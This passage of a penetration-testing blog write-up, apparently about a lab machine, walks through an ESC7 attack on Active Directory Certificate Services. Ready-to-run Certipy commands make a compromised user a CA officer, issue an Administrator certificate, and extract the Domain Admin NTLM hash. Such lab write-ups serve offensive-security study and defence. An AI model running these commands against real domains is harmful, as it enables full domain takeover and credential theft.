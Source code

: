 Now that Simon is in the `ca-managers` group, all we'll need to do is exploit ESC7, which is also outlined on another one of my blog posts [here](https://logan-goins.com/2024-05-04-ADCS/#exploitation-of-esc7).
As mentioned in my previous blog post, because we manage the CA, we can add ourselves as an officer, which will allow us to approve our own certificate requests, including certificate requests that allow us to impersonate the DA.

```
certipy ca -ca 'intercept-DC01-CA' -add-officer Simon.Bowen -username Simon.Bowen -password 'b0OI_fHO859+Aw' -dc-ip 10.10.239.5
```

![image](https://github.com/shellph1sh/shellph1sh.github.io/assets/55106700/f0151864-369a-4785-904d-7162263e03c7)

Next enable the configured by default SubCA certificate template, this template is useful because it allows client authentication by default, allowing us to authenticate as DA using the requested certificate.
```
certipy ca -ca 'intercept-DC01-CA' -enable-template "SubCA" -username Simon.Bowen -password 'b0OI_fHO859+Aw' -dc-ip 10.10.239.5
```

![image](https://github.com/shellph1sh/shellph1sh.github.io/assets/55106700/65acfde5-5435-4cc1-ab46-f7228ffa4fbc)

Now we request a certificate with the userPrincipalName of Administrator, the request will get automatically denied, but since Simon is an officer we can manually issue the requested certificate.
```
certipy req -ca 'intercept-DC01-CA' -username Simon.Bowen -password 'b0OI_fHO859+Aw' -target 10.10.239.5 -template SubCA -upn administrator@intercept.vl
```

![image](https://github.com/shellph1sh/shellph1sh.github.io/assets/55106700/88f201d9-8215-48f7-aa31-12c6d41e7c88)

Then manually issue the certificate request
```
certipy ca -ca 'intercept-DC01-CA' -issue-request 5 -username Simon.Bowen -password 'b0OI_fHO859+Aw' -dc-ip 10.10.239.5
```

![image](https://github.com/shellph1sh/shellph1sh.github.io/assets/55106700/e1b6ca13-1625-4170-af31-6b2c3be24eb4)

Finally retrieve the requested certificate
```
certipy req -ca 'intercept-DC01-CA' -username Simon.Bowen -password 'b0OI_fHO859+Aw' -target 10.10.239.5 -retrieve 5
```

![image](https://github.com/shellph1sh/shellph1sh.github.io/assets/55106700/c3e5ff80-881b-4d02-ab95-e530c3137882)

Now we can use certipy auth to gain the NTLM hash from the Domain Admin from the requested certificate.
```
certipy auth -pfx administrator.pfx
```

![image](https://github.com/shellph1sh/shellph1sh.github.io/assets/55106700/103a1370-2007-4c76-9c8a-24aaa9e1a6be)

And finally when testing credentials, they work! And we're DA.
![image](https://github.com/shellph1sh/shellph1sh.github.io/assets/55106700/358dc85d-5d32-459f-9aa6-65e3dd1de3f8)

